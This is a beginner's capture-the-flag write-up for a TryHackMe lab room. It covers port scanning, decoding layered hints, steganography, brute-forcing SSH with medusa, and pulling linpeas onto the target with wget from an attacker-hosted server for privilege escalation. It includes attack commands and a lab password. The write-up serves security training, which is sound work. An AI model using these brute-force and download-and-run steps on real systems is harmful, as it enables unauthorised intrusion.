Room Link: https://tryhackme.com/room/jackofalltrades
All-in-One is a simple room designed for beginners. There are multiple exploitations you can use to help you find the flags.
Lets start out with a nmap scan.

Looks like port 22 and 80 are open
Looks like they are running http on port 22 and ssh on port 80.
I couldn’t access the website due to some firefox issues since it's running on port 22.
On firefox go to about:config
Accept the risk and continue
Search for network.security.ports.banned.override
Select string and type 22

Save it
You should now be able to go back to the website and view it.
Seems like a normal website but let's check the source code.
Looks like there is some hidden stuff in there.

Note to self - If I ever get locked out I can get back in at /recovery.php! UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
Looks like that is base64. Lets decode it

Looks like we got a password.u?WtKSraq
I went on recovery.php and tried to log in with the username jack and the password provided but nothing.
Let's check the source code again.
Looks like there is more stuff we have to decode.

I believe this is base32. Lets try it
echo “PASTE MUMBO JUMBO HERE” | base32 –decode

Looks like we get more stuff we have to decode. This one is hexadecimal.
echo "PASTE MUMBO JUMBO HEREE" | xxd -r -p

Again we get more code
This is rot13. Let's use cyber chefs

Ok going on the website just leads to the wikipedia page for stegosauria. I'm guessing they hid something in the picture of the dinosaur on the main site.
Save the picture of the dinosaur
Lets use steghide to extract the information from the picture. It asks for a password so lets try the password we found earlier

Ok now lets read creds.txt
:(

Repeat the steps on the jackinthebox picture.
Ok don’t, that did not work either.
The only other picture is the header.jpg.
Repeat the steps with header.jpg

Finally
Use those creds to log into the recovery page.

Looks like we will have to do RCE

Looks like there is some password lists in the home directory
Let's read it.

It took me a while but it's an ssh password.
Save the password inside a .txt
We have to crack it. Let's use medusa
Side note when you save the jacks_password_list output, view the page source and copy it that way.

Anyways back to medusa
medusa -h **IP ADDRESS** -u jack -P **SSH PASSWORD FILE** -M ssh -n 80

We got the password
Now let's log in.

Unfortunately it looks like the flag hidden in the picture. Lets use scp to get it to finally be done with the user flag.

Open the picture for the flag

sudo -l didn’t work so let's get linpeas on the system.
If you're using the attack box then it's located in the directory in the image below. If you're using your own machine, download it:
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
Start a python server to get it on the ssh machine:
python3 -m http.server 8000

On the ssh machine use this:
wget http://**attackboxIP**:8000/linpeas.sh

chmod +x and then run linpeas.

Ok this looks good. Go on gtfobins and look up strings.
Ok this will let us read the root.txt

Done 🙂🙂🙂
← Back to Writeups